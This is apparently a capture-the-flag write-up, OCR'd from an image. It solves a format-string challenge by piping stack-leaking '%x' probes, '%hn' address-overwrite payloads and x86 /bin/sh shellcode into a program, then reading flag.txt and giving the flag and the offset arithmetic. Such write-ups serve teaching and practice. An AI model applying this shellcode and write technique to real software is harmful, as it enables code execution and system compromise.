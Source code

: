 ```
$ python -c 'print "%08x."*12' > pipe
$ python -c 'print "%044x%4$hhn"' > pipe
$ python -c 'print "%08x."*12' > pipe
$ python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"+"%041067x%12$hn"' > pipe
$ echo "whoami" > pipe
$ echo "ls /home/problem" > pipe
$ echo "cat /home/problem/flag.txt" > pipe

```
Just clarifying some details: we see the valuè0xffd00e48`, so after subtracting`0x1c`, we get target address ̀0xffd00e2c`. We'll need 44 (= `0x2c`) bytes in the first part of the first write. The second write value is the same as during step 2, but we also have to remember to account for our shellcode which is 21 bytes (we wrote 41088 bytes in step 2, so 41088-21 = 41067). Once we get a shell, we need to find the flag, but the user's home directory is usually a good place to start.

FLAG = who_needs_stack_control_anyway?